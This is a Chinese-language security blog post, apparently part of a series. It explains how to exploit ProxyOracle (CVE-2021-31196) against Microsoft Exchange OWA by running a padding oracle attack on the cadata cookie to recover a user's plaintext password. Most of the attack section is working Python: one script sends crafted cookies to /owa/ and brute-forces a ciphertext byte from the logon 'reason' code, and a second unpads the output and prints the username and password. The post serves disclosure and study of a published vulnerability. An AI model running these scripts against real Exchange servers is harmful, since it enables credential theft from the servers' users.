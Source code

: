 ```yaml
---
layout: post
title: ProxyOracle利用分析2——CVE-2021-31196
---
```



## 0x00 前言
---

在上篇文章《ProxyOracle利用分析1——CVE-2021-31195》介绍了获得用户Cookie信息的思路，本文将要介绍如何通过Padding Oracle Attack还原出用户明文口令

## 0x01 简介
---

本文将要介绍以下内容：

- 实现思路
- 部分开源代码

## 0x02 实现思路
---

实现Padding Oracle Attack的前提条件：

1.获得密文和密文对应的IV(初始化向量)
2.能够触发密文的解密过程，且能够知道密文的解密结果

对应到Exchange上面，具体信息如下：

(1)获得密文和密文对应的IV(初始化向量)

Cookie信息中的cadata对应密文，cadataIV对应IV

(2)能够触发密文的解密过程，且能够知道密文的解密结果

我们通过dnsSpy反编译dll能够获得详细的解密过程，方法如下：


使用dnsSpy打开文件`C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\bin\Microsoft.Exchange.FrontEndHttpProxy.dll`


依次定位到`Microsoft.Exchange.HttpProxy` -> `FbaModule` -> `ParseCadataCookies(HttpApplication httpApplication)`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-8-20/2-1.png)


得到触发密文解密过程的方法：

访问`https://<url>/owa`，发送GET数据包，Cookie中需要包含cadata、cadataTTL、cadataKey、cadataIV和cadataSig

密文解密结果的判断：

发送GET数据包后，默认进行302跳转，并在响应内容中标记是否解密成功

解密结果可以通过查看LogonReason的定义进行判断

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-8-20/2-2.png)

从这里看出，0代表None，这里为格式错误，1代表Logoff，2代表InvalidCredentials，3代表Timeout，4代表ChangePasswordLogoff

我们在尝试解密时，当reason=2，代表解密成功

当reason=3时，代表Cookie已过期，此时无法实现Padding Oracle Attack

**注：**

Exchange的Cookie有效期为12小时


## 0x03 部分开源代码
---

### 1.破解第0个分组的第8个字节

Python实现的完整示例代码如下：

```
#python3
import requests
import base64
import sys
import os
import re
import urllib3
urllib3.disable_warnings()


def checkFirstByte(url, flag):
    url1 = "https://" + url + "/owa/"    
    cadata = "wvutFMpkBXBpxdB5WNfcJ2a5WAJaxNX7hjaEx6jKudQXGf+ZDdfhVJfgFc01+dNkS33gBeQmWAkQYNfgnVSkfg=="
    cadataTTL = "tTjVGVGFfG9M0P6lAXm/jw=="
    cadataKey = "oGPdBcVgmUMiC+ZN49GZYyxkfH1jVzG0jWeJ95NRyAXEhr7PKOyLlNcqmgztUHfJnpYu94zFChAW+spsrAU9jbBLvXzP+pcQZMRQ8KjIdFiwcRtIOkE3iuf+v+e+Q+NhVeEghk9eW/jq0E/DjFL2MCC1yQUVEgf7JrXuQWbbocERT/GybkBIddq3RZAbRUWW33jFGWlGqJWTu/BBey3kD8Srhm5fvBC7rfh5MG9gdk6i/aLI/R3jt7khUyU4Vg3iZXYUljLpy1moX2YsZZw6CXuw4oI0t9B8RNfEAjg3LY6/HR06LjrLjSHGBGIWrVVpPcM+o8L9RUajM3WUoDGaSA=="
    cadataIV = "YJD/eLSxuErTgrWO9D2AGvH1HJZhQC9eRppXZAO9gPcRQN1vICq+oYL8lehL/Zyv9NZsliqCwtGxKR6bPx/ieBAqddiYIL4uTJ646XyCSrjNUwG1Ur+1Q3+Lo0fQzjtW3HUEzvbrqwph94aaqM5BGIBCaEOC/6300QI7MIKR/cyyBfzjYuMJODh8SFxFKcD0nYwHfADZiAmaY+Pk5TqWfOJu6aVDy8or7Ax714JPMzcQr1bvX3VQuMQPPXpRwL0jWyHIMgZMwxzhGkfM8kA66UjFGQ07eq3ZzrDNBprmYwmgAoXFiQEop9XWUdBk2Za/OGDW5gVJsk+gJmm4hz/CEw=="
    cadataSig = "jL1+ETV4nVd3cma3T75lr6t9OYKkkb4ksHsZkaGciCtxvjWDfJWo2b6oqHbWJ06W1EyN3j1fh+AYBWB95dJ892WWO027006tkgql+qoKovhkUOfk4QoT9jp3O2+xT6O14JiaNfEIZoIe6DbaEICaUYal/aiwvOvviuiL1DDqz+UTxIiWDehZ1qZ6XyPNu46sVr+G21fLijD1G51ULrxUtGH0JfU56mYMOFiUgyMCpw54h/kxtiBsT3qpho1hsG+sVKXLmYbdY7DJ8ELO12Ql4nhzx5lqzTpH6JFlt+MaHkx6ugR0p9wq/yKbH/0t+HQVSPGWwlrqiK6PkxZCNG4WPg=="

    cipher = base64.b64decode(cadata)
    bs = 16
    if len(cipher) % bs != 0:
        raise ValueError("The length of `cipher` must be a multiple of `bs`")

    cipher_blocks = []
    for i in range(0, len(cipher), bs):
        cipher_blocks.append(cipher[i: i + bs])

    bytetempdata = b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" + bytes([flag]) 
    bytecadata = bytetempdata + cipher_blocks[1]
    base64cadata = base64.b64encode(bytecadata).decode()

    cookie = {
        "cadata": base64cadata,
        "cadataTTL": cadataTTL,
        "cadataKey": cadataKey,
        "cadataIV": cadataIV,
        "cadataSig": cadataSig,
    }

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36"
    } 
    response = requests.get(url1, headers=headers, cookies=cookie, verify = False, allow_redirects=False)

    if response.status_code == 302 and "reason" in response.text:
        pattern_name = re.compile(r"reason=(.*?)\">here")
        name = pattern_name.findall(response.text)
        print(name[0], end='')
        if name[0] == "2":
            print("\ndecrypt:")
            print(bytecadata)
            sys.exit(0)
        else:
            return False

if __name__ == "__main__":
    for flag in range(0, 256):
        checkFirstByte("192.168.1.1", flag)        
```


这里需要注意以下细节：

(1)0x00至0xFF遍历

```
for i in range(0, 256):
    i = bytes([i])
    print(i)
```

(2)密文分组

分组长度为16

(3)发送GET请求时设置`allow_redirects=False`来禁用跳转

### 2.由填充明文到实际明文


在我们完成整个Padding Oracle Attack后，会得到一段填充的明文


由填充明文到实际明文的完整示例代码如下：


```
#python3
import base64
import re

def unpad(s):
    exe = re.findall("..", s.hex())
    padding = int(exe[-1], 16)
    exe = exe[::-1]

    if padding == 0 or padding > 16:
        return 0

    for i in range(padding):
        if int(exe[i], 16) != padding:
            return 0
    return s[: -ord(s[len(s) - 1 :])]


decipherbyte = b"V\x00z\x00d\x00D\x00p\x00Q\x00Y\x00X\x00N\x00z\x00d\x002\x009\x00y\x00Z\x00D\x00E\x00y\x00M\x00w\x00=\x00=\x00\x04\x04\x04\x04"
decipher = unpad(decipherbyte)
temp = "XX" + decipher.decode("utf_16_le")
plaintext = "??" + base64.b64decode(temp)[2:].decode()

print("[+] User: " + plaintext.split(":")[0])
print("[+] Password: " + plaintext.split(":")[1])
```

代码执行结果如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2021-8-20/2-3.png)

这里需要注意以下细节：

(1)得到填充明文后需要使用PKCS7进行数据填充

(2)实际明文的格式为`usename:password`

虽然明文的前两字节无法破解，导致用户名显示不完整，但这不会造成影响，因为我们拿到的Cookie信息中，"lgn"显示了完整了用户名称

## 0x04 小结
---

本文介绍了通过Padding Oracle Attack还原出用户明文口令的方法，关键代码已开源，剩余的部分留给读者自行完成。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)











